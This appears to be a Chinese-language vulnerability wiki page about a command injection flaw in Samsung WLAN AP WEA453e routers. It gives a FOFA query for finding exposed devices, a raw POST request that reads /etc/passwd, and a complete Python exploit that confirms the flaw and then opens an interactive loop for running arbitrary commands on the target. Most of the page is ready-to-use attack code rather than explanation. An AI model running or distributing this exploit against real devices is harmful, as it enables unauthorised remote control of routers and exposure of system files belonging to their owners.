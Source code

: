 <languages  />

FOFA
----

    title=="Samsung WLAN AP"

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞利用
--------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
發生以下請求：

</div>
    POST /(download)/tmp/a.txt HTTP/1.1
    Host: 175.199.182.152
    Connection: close
    Content-Length: 48

    command1=shell:cat /etc/passwd| dd of=/tmp/a.txt

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: 三星 WLAN AP WEA453e路由器                                  \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/(download)/tmp/a.txt"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            if "root" in response.text and response.status_code == 200:
                print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
                while True:
                    cmd = str(input("\033[35mCmd >>> \033[0m"))
                    POC_2(target_url, cmd)
            else:
                print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_2(target_url, cmd):
        vuln_url = target_url + "/(download)/tmp/a.txt"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            print("\033[36m{} \033[0m".format(response.text))
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<https://mp.weixin.qq.com/s/rse0hnR6C2AfvzWiN7t8Qg>